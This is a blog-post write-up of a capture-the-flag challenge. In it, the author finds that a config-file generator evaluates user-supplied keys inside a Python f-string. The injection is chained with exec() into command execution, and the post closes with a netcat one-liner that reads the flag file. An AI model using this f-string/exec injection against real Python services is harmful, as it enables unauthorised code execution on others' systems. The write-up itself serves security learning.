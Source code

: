 ```yaml
---
layout: post
title:  "[Ins'hack CTF 2018] Config Creator"
date:   2018-04-08 17:00:00 +0000
categories: "CTF"
comments: true
---
```


As I'm currently into pwning things, I tried the pwn category at the Ins'hack CTF. And frankly, I really enjoyed spending time on their challenges. The first one was Config Creator. It was supposed to be hard, but had more validations than the others.
> I've just written a small utility to create a config file (which are sooo painful to write by han, right?).

> Care to have a look?

> nc config-creator.ctf.insecurity-insa.fr 10000  

No binary to reverse so let's give it a first shot:
```
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 1
Config key? A
Config value? B
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 3
template:
f"""
configuration [
    A = {A};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4
config:

configuration [
    A = B;
]


Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 6
Bye
```
Plenty of options... After playing with these, I tried several things but didn't get something until I sent some random hex values:
```
└───▶python -c "print('1\n\xff\n\xff\n3\n4\n6\n')" | nc config-creator.ctf.insecurity-insa.fr 10000
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Config key? Config value?
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
template:
f"""
configuration [
     = {};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
config:
f-string: empty expression not allowed (<string>, line 5)
An error occurred, sorry

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Bye
```
See this line ?
> f-string: empty expression not allowed (<string>, line 5)

I didn't know what was that, **f-string**. A quick look at google and I landed on [this article](https://hackernoon.com/a-closer-look-at-how-python-f-strings-work-f197736b3bdb). Apparently this is a new way to format strings. A quick example of this fearture would be:
```python
>>> a=1337
>>> f'Hello {a} ABCD'
'Hello 1337 ABCD'
```
At this point it's almost certain that we'll have to exploit it. Let's try to:
```
└───▶ python -c "print('1\na\nabc\n1\nprint(a)\nprint(a)\n3\n4\n6\n')" | nc config-creator.ctf.insecurity-insa.fr 10000
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Config key? Config value?
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Config key? Config value?
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
template:
f"""
configuration [
    a = {a};
    print(a) = {print(a)};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
config:
abc

configuration [
    a = abc;
    print(a) = None;
]


Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Bye
```
We managed to print the variable a (the 'abc'). It would be great if we could put "import os; os.system(\'cat flag.txt\')" in a variable and execute it. If we look at the python [built-in functions](https://docs.python.org/3/library/functions.html), we find a interesting function **exec**.
> exec(object[, globals[, locals]]) <br/>
> This function supports dynamic execution of Python code. object must be either a string or a code object. If it is a string, the string is parsed as a suite of Python statements which is then executed (unless a syntax error occurs).

Seems perfectly suitable. And yep, we can retrieve the flag with:
```shell
python -c "print('1\na\nimport os; os.system(\'cat flag.txt\')\n1\n' + 'exec(a)\n' + '1\n3\n4\n6\n')" | nc config-creator.ctf.insecurity-insa.fr 10000
```
